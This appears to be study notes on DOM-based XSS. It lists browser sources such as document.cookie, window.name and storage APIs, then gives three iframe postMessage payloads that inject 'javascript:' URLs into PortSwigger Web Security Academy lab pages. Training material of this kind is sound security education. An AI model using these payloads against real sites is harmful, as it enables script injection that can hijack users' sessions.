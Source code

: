 ## Document and Window Properties

### Common Document Properties
- `document.URL`: The URL of the current document.
- `document.documentURI`: The URI of the current document.
- `document.URLUnencoded`: (Deprecated) Unencoded URL of the document.
- `document.baseURI`: The base URI of the document.
- `location`: Provides the URL of the current document and allows navigation.

### Cookie and Referrer Information
- `document.cookie`: Allows access to cookies within the document's scope.
- `document.referrer`: Returns the URI of the document that linked to the current page.

### Window and History
- `window.name`: A property that persists across page loads and can store string data.
- `history.pushState`: Adds a state to the session history stack.
- `history.replaceState`: Modifies the current history entry.

---

## Storage APIs

- `localStorage`: Stores data with no expiration time. Data is accessible across browser sessions.
- `sessionStorage`: Stores data for the duration of the page session. Cleared when the page is closed.
- `IndexedDB`: A low-level API for client-side storage of significant amounts of structured data.

---

## Example: Iframe Behavior and Security Concerns

### Example 1: Using `postMessage` with Iframes
```html
<iframe 
  src="https://0a4100f704dad9d180771c2b00670016.web-security-academy.net/" 
  width="500" 
  height="500" 
  onload="this.contentWindow.postMessage('javascript:print(1)//http:', '*')">
</iframe>

<iframe 
  src="https://0af0005904bc15af80083a7d003d006f.web-security-academy.net/" 
  width="500" 
  height="500" 
  onload="this.contentWindow.postMessage('{
    \"type\": \"load_channel\",
    \"url\": \"javascript:print(1)\",
    \"width\": \"20\",
    \"height\":\"20\"
  }', '*')">
</iframe>

<iframe 
  src="https://0af0005904bc15af80083a7d003d006f.web-security-academy.net/" 
  width="500" 
  height="500" 
  onload="
    this.contentWindow.postMessage(JSON.stringify({ 
      type: 'page-load' 
    }), '*'); 
    this.contentWindow.postMessage(JSON.stringify({
      type: 'load-channel',
      url: 'javascript:print(1)'
    }), '*');
    this.contentWindow.postMessage(JSON.stringify({
      type: 'player-height-changed',
      width: 600,
      height: 400
    }), '*');
  ">
</iframe>
